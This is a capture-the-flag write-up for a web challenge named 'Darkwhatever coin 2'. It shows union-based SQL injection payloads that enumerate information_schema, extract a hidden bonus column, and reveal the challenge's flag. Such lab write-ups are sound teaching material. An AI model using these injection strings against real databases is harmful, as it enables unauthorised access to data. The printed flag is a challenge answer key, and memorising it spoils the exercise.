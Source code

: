 # Darkwhatever coin 2
http://chal.firebird.sh:32001/q2/

1. Try some input: team1' or 1=1 or teamname=team2'
![alt text](http://url/to/img.png)

- After the input, we can see the table
- From the page source code, the flag is moved to neighbour, probably we need to the columns in this table or the flag is in another

2. Attempt for SQL injection for finding all tables in the database (UNION can be a good choice)
- Input: team1' UNION SELECT COLUMN_NAME, table_name FROM information_schema.columns UNION SELECT teamname, balance from balances where 1='1
![alt text](http://url/to/img.png)

- After the input, we can see balances table also has the bonus column

3. Attempt to see the bonus column in the balances table
- Input: team1' UNION SELECT teamname, bonus FROM balances UNION SELECT teamname, balance from balances where 1='1
![alt text](http://url/to/img.png)

Flag obtained:
flag{un10n_bas3d_sql1_attack_1s_f0n}
